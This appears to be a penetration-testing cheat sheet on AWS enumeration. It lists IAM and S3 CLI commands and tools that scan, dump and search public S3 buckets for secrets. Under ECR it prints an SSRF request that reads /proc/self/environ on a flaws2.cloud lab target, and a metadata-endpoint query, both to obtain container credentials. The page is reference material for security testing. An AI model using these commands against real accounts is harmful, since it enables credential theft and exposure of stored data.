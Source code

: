 # Enumeration

!!! tip 
    When assessing AWS environments, it is recommended to configure separate testing profiles using `aws configure`.
    Each profile can then be selected for varied CLI commands using the `--profile` flag.

## IAM

Identity and Access Management (IAM) is a web service for securely controlling access to AWS services. With IAM, you can centrally manage users, security credentials such as access keys, and permissions that control which AWS resources users and applications can access.

[AWS CLI - IAM Documentation](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html#cli-aws-iam)

!!!note "Reading ARNs"
    `"arn:aws:iam::123456789012:user/DevAdmin"`  

    * `123456789012` - use this in place of `<account_id>` in the next commands
    * `DevAdmin` - use this in place of `<username>` in next commands

### Enumerating Users

#### Get current IAM identity
```
aws sts get-caller-identity  --profile <profile_name>
```

#### List IAM users
```
aws iam list-users --profile <profile_name>
```

### Enumerating Roles

#### List IAM roles
```
aws iam list-roles --profile <profile_name>
```
### Get IAM user information 
```
aws iam get-user --profile <profile_name>
```

### List IAM user inline policies
```
aws iam list-user-policies --user-name <username> --profile <profile_name>
```

### List IAM user attached policies
```
aws iam list-attached-user-policies --user-name <username> --profile <profile_name>
```

### Get IAM user policy information
```
aws iam get-user-policy --user-name <username> --policy-name <policy_arn> --profile <profile_name>
```

## Storage

### S3 Buckets

#### List all user owned S3 buckets
```
aws s3 ls --profile <profile_name> 
```

#### List all prefixes and objects in a S3 bucket
```
aws s3 ls s3://<bucket_name> --profile <profile_name>
```

### Elastic Block Stores

### RDS

## Compute

### Elastic Compute Cloud (EC2)

### Elastic Container Registry (ECR)

#### Fetch Container Credentials URI with SSRF
```
curl -i -X GET "http://container.target.flaws2.cloud/proxy/file:///proc/self/environ"
```

#### Get Container Credentials from ECS IMDS
```
curl -i -X GET "http://169.254.170.2/<version>/<uuid>"
```
/v2/credentials/2fdf39e7-50cf-4e11-a47a-533525342c80

### Elastic Kubernetes Service (EKS)

## Automated Enumeration

!!! warning
    For engagements requiring good Operational Security, it might be preferable to follow a manual approach. The following tools can be extremely noisy and easily caught by blue teams.

* [https://github.com/nccgroup/ScoutSuite](https://github.com/nccgroup/ScoutSuite) - Enumerate global security posture into HTML dashboard
* [https://github.com/initstring/cloud_enum](https://github.com/initstring/cloud_enum) - Enumerate public S3 Buckets and Applications
* [https://github.com/sa7mon/S3Scanner](https://github.com/sa7mon/S3Scanner) - Scan for open S3 buckets and dump the contents
* [https://github.com/Eilonh/s3crets_scanner](https://github.com/Eilonh/s3crets_scanner) - Trufflehog wrapper to search for secrets in S3 buckets

### Scan for unprotected S3 buckets using keyword
```
python3 cloud_enum.py -k <keyword> -l <outfile> -t <thread_counts>
```

### Scan/dump contents of open S3 buckets
```
s3scanner --threads <thread_count> scan/dump --buckets-file <bucket_list>
```

### Search for secrets in S3 buckets
*Credits: [Hunting After Secrets Accidentally Uploaded To Public S3 Buckets](https://medium.com/@hareleilon/hunting-after-secrets-accidentally-uploaded-to-public-s3-buckets-7e5bbbb80097)*
```
cd s3crets_scanner/ && python3 main.py -p <profile_name> -r <role_name>
```